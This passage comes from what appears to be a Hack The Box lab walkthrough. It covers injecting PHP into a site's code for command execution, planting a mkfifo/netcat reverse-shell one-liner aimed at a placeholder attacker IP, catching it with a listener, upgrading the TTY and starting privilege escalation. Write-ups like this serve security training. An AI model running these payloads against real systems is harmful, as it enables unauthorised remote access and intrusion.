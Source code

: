 <?php system('id'); ?>
Huzzah! After saving this change, we now see the following on the homepage.
![image](https://github.com/user-attachments/assets/26c61d46-286c-4fa3-88fe-55cc24897924)


RCE Exploit
Getting a Reverse Shell
Now, let’s get down to the gritty and upload some code to get us a reverse shell!

Important Note before continuing:

Since we’re using the HTB VPN connection, ensure the {Attacking IP}below is the tun0 interface IP from your local machine! I had tried running the VPN on my desktop and running the attack on my VM through my eth0 interface IP and this did not work even though I could reach the target site fine and even ping the target from my VM.
{Listening port}can be whatever is opened on your machine. I’ll use 9443 for my box.
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {Attack IP} {Listening port} >/tmp/f"); ?>
Save the changes, then start a netcat listener on the listening port used above from your local machine running the attack.

$ nc -lvnp {listening port}
Next, simple visit the homepage to open the shell!
![image](https://github.com/user-attachments/assets/b504163d-2b52-462f-89a5-fdb4057f31d9)


Reverse Shell obtained
Note: When refreshing the Homepage to execute the shell, the web server will not load the page. This is normal.

Now that we have a shell, let’s upgrade our TTY to have a few additional nice-to-have features in our terminal. Simply use the commands below in sequential order.

First, run the following python command in the shell.

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Next, hit Ctrl+z on your keyboard to interrupt the shell connection, and, while back on your local host terminal, use the following steps.

$ stty raw -echo
$ fg

ENTER
ENTER
Now we just need to poke around until we find the flag!
![image](https://github.com/user-attachments/assets/34b94373-150d-4d06-8fe3-b33f75b1333c)


user.txt flag obtained!
Privilege Escalation
Now that we’ve got our foothold and gained access to the server as a local user, we need to find a way to elevate our privileges and become root to grab the next flag.

First, let’s run the LinEnum.sh script mentioned in the Privilege Escalation section of this module and get this file into our new target.
